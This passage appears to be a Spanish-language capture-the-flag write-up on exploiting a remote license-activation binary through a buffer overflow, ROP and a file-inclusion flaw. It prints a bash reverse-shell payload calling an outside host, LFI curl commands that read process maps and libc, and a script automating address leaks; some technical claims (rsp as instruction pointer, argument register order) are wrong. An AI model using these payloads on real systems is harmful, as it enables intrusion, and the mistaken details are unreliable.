 ```console
gef➤ pattern create 1024
aaaaaaa...aaaaf
└─$ printf "\x00\x00\x03\x00aaaaaaa...aaaaf" | nc localhost 6669
# SEGFAULT
$rsp   : 0x007fffffffded8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x005555555592a0  →  "[+] activated license: aaaaaaaabaaaaaaacaaaaaaadaa[...]"
gef➤ pattern offset $rsp
[+] Found at offset 520 (little-endian search) likely
```
Es decir a los 520 bytes basura empezamos a escribir en el putnero de instruccion (rsp) a partir del cual todo lo que pongamos se ejecutará.

## Descripción del ataque:
Este binario tiene de especial unas cuantas protecciones (por ejemplo NX que nos impide hacer un shellcode buffer overflow) y que es un
binario remoto, es decir se interactua con el a partir de subir una llave.key a una página web.
Por lo que esa llave que se sube tiene que ser epecial, dandonos una reverse shell:
`system(bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1')`

Como estamos en 64 bytes tenemos que tirar de ROP:
En 64 bytes las funciones toman sus argumentos de los registros del procesador en este orden de prioridad -> rdi, rdi, rdx, r8, r9  
Ejemplo -> ```system("whoami")```. Si en \[rdi] está la cadena "whoami" y luego se llama a system(), este "whoami" será su argumento.

## Ataque: obteniendo las direeciones necesarias:

Para hacer un ROP hay que saber ciertas direcciones (las que están en la maquina victima por medio del LFI)
Primero hay que conseguir la libc que esta usando:
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/413/maps | base64 -d  | grep "libc"
7fc8a1464000-7fc8a1489000 r--p 00000000 08:01 3634                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/usr/lib/x86_64-linux-gnu/libc-2.31.so | base64 -d > libc-2.31.so
```
Luego hay que saber las direcciones base (libc y el binario):
Como las direcciones cambian siemore que se reinicia la maquina con este script he automatizado su obtención:
```bash
base64_url="http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource="
pid=$(curl -s $base64_url/proc/sched_debug | base64 -d | grep "activate_licens" | awk '{print $3}') 
libc_memory=$(curl -s $base64_url/proc/$pid/maps | base64 -d | grep "libc" | head -n1 | awk '{print $1}' | awk '{print $1}' FS="-")
binary_memory=$(curl -s $base64_url/proc/$pid/maps | base64 -d | grep "activate_licens" | head -n1 | awk '{print $1}' | awk '{print $1}' FS="-")

echo "Direccion de memoria del binario -> 0x${binary_memory}"
echo "Direccion de memoria de libc -> 0x${libc_memory}"
```
